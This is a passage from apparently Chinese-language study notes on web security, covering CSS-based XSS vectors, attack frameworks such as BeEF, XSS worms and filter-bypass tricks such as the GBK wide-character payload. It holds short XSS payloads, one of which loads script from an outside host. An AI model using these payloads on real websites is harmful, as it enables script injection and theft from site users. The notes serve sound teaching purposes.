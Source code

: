    ```html
   <style>body{-moz-binding: url("http://hackers.org/xssmoz.xml#xss")}</style>
   ```

3. 通过请求背景图片或一些资源，通过伪协议执行 `javascript` 代码：

   ```html
   <div style="background:url{'javascript:alert(1)'}" />
   ```

4. 通过表达式构造 XSS:

   ```html
   <div style="width: expression(alert('xss'))" />
   ```

5. 通过 `behavior` 关键字执行 `javascript` 代码：

   ```html
   <div style="behavior: url(xss.htc)" />
   ```

### 攻击框架

原书中介绍了 [Attack API](http://code.google.com/p/attackapi)、[BeEF](http://www.bindshell.net/tools/beef/)、XSS Proxy 这样三个攻击平台。

## XSS Worm

蠕虫：

- 以往的蠕虫是利用服务端软件漏洞进行传播的。比如 2003 年的冲击波蠕虫，利用的是 Windows 的RPC 远程溢出漏洞。

XSS Worm 是 XSS 的一种终极利用方式，它的破坏力与影响力是巨大的。但是发起 XSS Worm 攻击也有一定的条件。一般来说，用户之间发生交互行为的页面，如果存在**存储型 XSS**，则比较容易发起 XSS Worm 攻击。

原书中介绍了 [Samy Worm](<https://samy.pl/myspace/tech.html>) 与百度空间蠕虫两个蠕虫。因为年代久远，参考价值不大。

## XSS 的绕过

### 利用字符编码

就是 `GBK/GBK2312` 宽字符集漏洞。在这个字符集中 `%c1` 这个字符与 `\` 反斜杠构成一个完整的 Unicode 字符。比如使用以下的 payload：

```javascript
%c1";alert(XSS);//
```

其中 `"` 会被逃逸（即在符号前面插入 `\` 这个字符），但是因为前面的介绍，在宽字符集中，这个反斜杠会被我们的 `%c1` 吃掉形成一个 Unicode 字符，从而使 `;` 逃逸出来。

### 绕过长度限制

比如 url 为 `http://www.a.com/index.html` 中的 `html` 存在通过下面的方式渲染：

```html
<input type=text value="$var" />
```

如果服务端对字符串的长度做了限制，那么攻击者直接构造 `<script>` 标签则可能会导致过长：
